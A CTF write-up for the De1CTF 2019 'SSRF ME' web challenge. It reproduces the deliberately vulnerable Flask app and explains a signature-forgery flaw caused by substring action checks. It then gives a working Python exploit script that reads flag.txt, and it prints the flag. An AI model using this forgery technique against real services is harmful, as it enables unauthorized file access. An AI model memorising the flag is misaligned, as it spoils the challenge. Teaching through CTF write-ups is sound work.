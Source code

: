 ```yaml
---
title: "SSRF ME- De1CTF 2019"
date: 2019-08-06T22:59:36+02:00
tags:
    - "CTF"
    - "De1CTF"
    - "Web"
    - "SSRf"
draft: true
---
```


![Information](/images/de1ctf-2019/ssrfme/description.png)
---

For this challenge we are provided with a url that returns us the following python
code:
{{< highlight python "linenos=table" >}}
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
{{< / highlight >}}

It's the code from the Flask app that is running on the website.

Basically it's a simple web app that allows us to do two things by using the
`action` parameter:

* scan: writes the content of a file located on the server in a file called
`result.txt`

* read: returns the content of the `result.txt` file

The `scan` and `read` actions are invoked by making a request to the `/De1ta`
endpoint.


The problem is that we need to provide a cookie called `sign` that is
remotely checked and must be in this format:
```
md5(secret_key + param + action)
```
`param` is used in conjuction with the `scan` action to indicate which file to
read.

We can see at the beginning of the python script that the `secret_key` is
generated using `os.urandom(16)`, so there's no way to bruteforce it.

Let's analyze the `/geneSign` endpoint.
It allows us to generate a signature using 'scan' as action:
```
md5(secret_key + param + 'scan')
```

The vulnerability in this application is located in the `Exec` function.
Instead of checking if the passed action is equal to `scan` or `read`, it
checks if the action contains `scan` and `read`.
We can exploit this by making a request to `geneSign` with 'flag.txtread' as
`param`, so that the following signature is generated:

```
secret_key + 'flag.txtread' + 'scan'
```
and then use the signature with `scan` and `read` actions to read the flag.
Here's the python code to do that:

```python
#!/usr/bin/env python3
import requests
import urllib

def getSign(param, action):
    params = {'param': param}
    cookies =  {'action': action}
    r = requests.get("http://192.168.43.204:8080/geneSign", params=params, cookies=cookies)
    return r.text.strip().replace('\n', '')

action = 'readscan'
sign = getSign('flag.txtread', '')

params = {'param': 'flag.txt'}
cookies = {'sign': sign, 'action': action}

r = requests.get("http://192.168.43.204:8080/De1ta", params=params, cookies=cookies)
print(r.text)
```

![Flag](/images/de1ctf-2019/ssrfme/flag.png)

### Flag
```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
```
